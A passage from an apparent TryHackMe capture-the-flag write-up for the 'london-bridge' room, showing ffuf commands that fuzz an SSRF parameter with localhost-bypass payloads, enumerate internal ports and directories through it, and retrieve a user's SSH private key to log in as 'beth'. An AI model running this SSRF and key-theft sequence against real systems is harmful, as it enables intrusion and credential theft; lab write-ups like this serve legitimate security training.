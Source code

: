 Save these payloads in a file named ssrf-localhost-bypass.txt and now it’s time to fuzz that agian.

```bash
┌──(kali㉿kali)-[~/tryhackme/london-bridge]
└─$ ffuf -X POST -u http://10.10.194.61:8080/view_image -w ssrf-localhost-bypass.txt -H 'Content-Type: application/x-www-form-urlencoded' -d 'www=http://FUZZ' -fw 27
....
localhost#{domain}      [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 159ms]
localhost/?d={domain}   [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 158ms]
127.0.0.1/{domain}      [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 160ms]
.....
2130706433/             [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 238ms]
{domain}@127.0.0.1      [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 227ms]
127.1:8080              [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 252ms]
```

We found too many which could work , but for now, will use 127.1:8080

Now, we can try to enumerate all the internal ports running via fuzzing again.
```bash
seq 65365 > ports.txt
```

![image 8](https://github.com/user-attachments/assets/eab16dd5-e6c4-4f8d-b68c-aa5b8b8269d8)

Port 80 was running on localhost

![image 9](https://github.com/user-attachments/assets/bcf3170c-711f-48d8-ac2c-e43ed40b6093)

It was a different index page that we found on port 8080.

We have to enumerate it further , means its directories on port 80:

```bash
┌──(kali㉿kali)-[~/tryhackme/london-bridge]
└─$ ffuf -X POST -u http://10.10.247.100:8080/view_image -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt  -H 'Content-Type: application/x-www-form-urlencoded' -d 'www=http://127.1:80/FUZZ' -fw 96
```
![image 10](https://github.com/user-attachments/assets/5c5e08f0-9bd4-44d0-a2e2-17fea46ebea8)

Got so many directories for port 80 , .ssh looks interesting, let’s check it and see if we could able to get user’s id_rsa via this way.

![image 11](https://github.com/user-attachments/assets/09bf92ef-a228-41b4-945e-e02f0bd5ebe5)

![image 12](https://github.com/user-attachments/assets/54dc6d18-0ea7-48fb-97bf-7f1cd36e6b5d)

### Shell as beth

Save that id_rsa key in our kali machine, give it permission 600 and use it to ssh in to user beth’s account.

```bash
┌──(kali㉿kali)-[~/tryhackme/london-bridge]
└─$ echo " <id_rsa-content>" > id_rsa
┌──(kali㉿kali)-[~/tryhackme/london-bridge]
└─$ chmod 600 id_rsa
```
![image 13](https://github.com/user-attachments/assets/26e7ba91-7227-4685-8d35-aeb95799e0f0)
